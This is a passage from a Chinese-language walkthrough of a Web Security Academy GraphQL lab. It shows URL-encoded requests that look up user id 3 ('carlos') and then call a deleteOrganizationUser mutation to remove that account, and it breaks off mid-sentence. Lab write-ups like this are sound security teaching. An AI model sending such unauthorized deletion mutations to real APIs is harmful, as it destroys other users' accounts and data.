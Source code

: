 id 为 3 时用户为 carlos

```bash
GET /api?query=%71%75%65%72%79%20%7b%0a%20%20%20%20%67%65%74%55%73%65%72%28%69%64%3a%20%33%29%20%7b%0a%20%20%20%20%20%20%20%20%69%64%0a%20%20%20%20%20%20%20%20%75%73%65%72%6e%61%6d%65%0a%20%20%20%20%7d%0a%7d HTTP/1.1
Host: 0afd00740480738384c5fe6e000400e8.web-security-academy.net
Cookie: session=Y9LKsJElXvfb0KwEWslV81d8JZACigJx
Sec-Ch-Ua: "Not A(Brand";v="99", "Google Chrome";v="121", "Chromium";v="121"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0afd00740480738384c5fe6e000400e8.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
```

[![](assets/1708485015-17441a33ee3422632a0274026f99d841.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220152331-f318bbe4-cfc0-1.png)

随后调用接口进行删除用户的操作

```bash
%6d%75%74%61%74%69%6f%6e%20%7b%0a%20%20%20%20%64%65%6c%65%74%65%4f%72%67%61%6e%69%7a%61%74%69%6f%6e%55%73%65%72%28%69%6e%70%75%74%3a%20%7b%69%64%3a%33%7d%29%20%7b%0a%20%20%20%20%20%20%20%20%75%73%65%72%20%7b%0a%20%20%20%20%20%20%20%20%20%20%20%20%69%64%0a%20%20%20%20%20%20%20%20%7d%0a%20%20%20%20%7d%0a%7d
```

[![](assets/1708485015-ab9a3e406e765a2eb4f515a2e40b3577.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220152400-046dcb8c-cfc1-1.png)  
此时进行查询操作会显示如下信息：  